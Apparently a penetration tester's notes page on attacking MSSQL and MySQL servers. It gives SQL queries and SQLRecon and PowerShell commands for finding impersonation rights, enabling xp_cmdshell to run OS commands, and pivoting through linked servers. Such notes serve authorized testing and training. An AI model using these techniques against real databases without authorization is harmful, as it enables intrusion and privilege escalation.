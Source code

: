 >[!note]
>This document does NOT cover SQLi attacks or anything related to them, nor does it cover SQL syntax. For SQLi help reference [[SQLi]]. 

TCP//3306 (MySQL)
TCP//1433 (MSSQL)

# SQL Database Checklist
- Enumerate version information
- Exploit if vulnerable
- Determine credentials
	- Bruteforce if no other recourse
- Enumerate valuable information

# MySQL
[[MySQL]]

# MSSQL
[[Sqsh/Sqlcmd]]
[[Impacket]]
[[SQLRecon]]

## MSSQL Impersonation
Impersonation in an MSSQL database is a permission granted to a user or users that allows them to assume the permissions of another user. This perm is explicitly granted and it can be searched for using this query:
```sql
-- Find all principal IDs with impersonate privs
SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';

-- Find all principal names associated with IDs
SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;
```

[[SQLRecon]] will also do this for you. 

```powershell
SQLRecon.exe /a:wintoken /h:<sql server> /m:impersonate # Idenitfy users who can be impersonated or can impersonate

SQLRecon.exe /a:wintoken /h:<sql-server> /m:iwhoami /i:<acct to impersonate> # Use the i+ command to run whoami as another user acct
```

## Command Execution
[[Invoke-SQLOSCmd]]

MSSQL's xp_cmdshell procedure can give us RCE on the underlying infrastructure. 
```powershell
Invoke-SQLOSCmd -Instance "<sql server connection string>" -Command "whoami" -RawResults # Run a whoami with xp_cmdshell
```

```sql
-- Determine if xp_cmdshell is available
SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';

-- Reconfigure the instance to allow xp_cmdshell (requires privileges)
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE;

-- Use xp_cmdshell to execute a simple whoami
EXEC xp_cmdshell 'whoami';
```

>[!note] 
>[[Invoke-SQLOSCmd]] already uses this enabling feature where possible. However, it also disables it again after enabling to ensure minimal impact to the system. We should be careful to do the same when interacting with the system raw. 

```powershell
SQLRecon.exe /a:wintoken /h:<sql server> /m:ienablexp /i:<user acct to impersonate> # Impersonate a privileged user to enable xp_cmdshell

SQLRecon.exe /a:wintoken /h:<sql server> /m:ixpcmd /i:<acct to impersonate> /c:ipconfig # Run an ipconfig on an MSSQL server
```

## Linked Servers
```sql
-- Identify any linked servers
SELECT srvname, srvproduct, rpcout FROM master..sysservers;

-- Query a linked server (careful with precise quotation marks!)
SELECT * FROM OPENQUERY("<linked server>", 'select @@servername');
```

```powershell
SQLRecon.exe /a:wintoken /h:<sql server> /m:links # Identify linked servers

SQLRecon.exe /a:wintoken /h:<sql server> /m:lquery /l:<sql server> /c:"select @@servername" # Query a linked server
```

We cannot remotely reconfigure servers with openquery. On the off chance RPC Out is enabled, you can use MSSQL's AT syntax to reconfigure the remote server. 

If sysadmin privileges are configured on the remote server, you do not need to acquire those privileges from your local server first, it is possible to be an sa user on one server but not another simultaneously. 

Use [[SweetPotato]] for privilege escalation via MSSQL privs. 
